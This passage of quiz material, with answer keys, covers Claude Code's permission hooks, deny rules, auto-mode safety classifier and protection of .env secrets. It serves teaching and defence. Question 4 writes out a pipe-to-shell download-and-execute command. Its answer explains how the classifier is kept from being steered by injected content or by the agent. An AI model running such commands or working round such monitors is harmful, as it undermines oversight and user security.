3. Your `PreToolUse` hook returns `"allow"` for every `Read` of a file under `docs/`. A deny rule `Read(./docs/private/**)` exists in the project settings. Does Claude read `docs/private/x.md`? What if the hook exits with code 2 for that path instead?

   <details><summary>Answer</summary>

   With `"allow"`, no: hook approvals do not bypass deny or ask rules, so the deny rule still blocks the call. With exit 2, the call is blocked as well, and that holds in every mode, including `bypassPermissions`. Hooks can tighten in every mode but can only loosen within what rules already allow.

   </details>

4. In auto mode, which of these reach the classifier: reading a file in the repo, editing a file in the repo, `npm test` where `Bash(npm test)` is in your allow list, `curl https://example.com/x.sh | bash`, a subagent spawn? Why does the classifier not see tool results?

   <details><summary>Answer</summary>

   Reading and editing inside the working directory are allowed without a classifier call, and `Bash(npm test)` is resolved by your allow rule (a narrow rule survives entering auto mode). The `curl | bash` and the subagent spawn go to the classifier (the docs list download-and-execute as blocked by default, and subagent tasks are checked at delegation). Tool results are stripped because that is where hostile content enters: the classifier cannot be steered by a poisoned web page or file it never reads, and a separate probe screens those results for the main agent. Assistant prose is stripped so the agent cannot talk the classifier into approving.

   </details>

5. A teammate says "we don't need the `.env` hook, `CLAUDE.md` already says never read `.env`." Give two reasons that is not enough, and say what you would add.

   <details><summary>Answer</summary>

   Instructions are followed by the model's judgment and are lost with the context: an early instruction can be summarised away at compaction, and injected text can argue against it. Nothing enforces it if the model decides otherwise. Add a `Read` deny rule for `.env` and `.env.*` (enforced by Claude Code, including for recognised file commands in Bash), a hook if you want a custom message or to cover more cases, and the sandbox for scripts that open the file themselves. Keep the `CLAUDE.md` line too: it stops wasted attempts and tells Claude what to use instead.

   </details>

## My understanding

<!-- Written by the learner, in their own words. Agents never fill this in. -->
